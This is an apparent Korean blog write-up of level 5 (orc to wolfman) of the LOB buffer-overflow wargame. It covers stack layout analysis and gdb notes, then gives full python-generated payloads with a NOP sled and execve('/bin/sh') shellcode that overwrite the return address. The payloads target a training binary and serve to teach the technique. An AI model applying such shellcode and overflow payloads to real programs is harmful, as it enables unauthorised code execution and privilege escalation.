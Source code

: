 ```yaml
---
title:  "[LOB] level 5: orc >> wolfman "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 08:46:36

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 5

**orc / cantata**

wolfman.c 코드 읽기  

![image](https://user-images.githubusercontent.com/69203345/147016263-c0deb5b7-aa7e-4e4b-96da-7b86f2f4abec.png)

하면할수록 조건이 추가되는데 소름이 돋을 지경이다

buffer를 memset으로 초기화도 시킨다  
나머지 조건은 그대로

스택의 구조를 보면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc  
argv[1]

높은주소

일듯하다

그래도 gdb는 빠질수 없지  
![image](https://user-images.githubusercontent.com/69203345/147054712-6529e861-c065-4e0f-b6f0-c44ffb48bce5.png)  
밑에 더있는데 다 nop이니까 안올림

0x8048503 <main+3>: sub %esp, 44  
스택의 크기는 44바이트

0x80485b9 <main+185>: lea  %eax,[%ebp-40]  buffer의 위치

0x8048506 <main+6>: cmp DWORD PTR [%ebp+8],1  
이부분이 argc의 비교문 일것이다 따라서 argc의 위치는 [ebp+8]일것

0x80485ce <main+189>: call 0x8048440  <strcpy>  위에 strcpy의 인자로 push되는 인자들을 보면 <main+176>에 [%ebp+12]의 위치에 있는 인자가 push되는데  argv[1]이라고 생각이 든다

스택을 좀더 정확히 해보자면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc    [ebp+8]     #값은 1  
argv[] [ebp+12]

높은주소

작성할 페이로드 A*44 +ret[4] + 쉘코드

>./wolfman \`python -c 'print "A"*44+"\xff\xff\xff\xbf"+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147061721-1db78919-49a2-47ac-8e6d-f8937187e50d.png)

gdb로 core확인

![image](https://user-images.githubusercontent.com/69203345/147061973-639702c5-4b5d-4163-8238-491b3697a437.png)

0xbffffc50으로 리턴주소를 사용하겠다

>./wolfman \`python -c 'print "A"*44+"\x50\xfc\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

Illegal instruction이 뜬다면 \x90의 갯수를 바꿔보자

![image](https://user-images.githubusercontent.com/69203345/147063440-f6cb7f43-5544-416e-9282-30037332c3c2.png)

>./orc \`python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x50\xfc\xff\xbf"'`
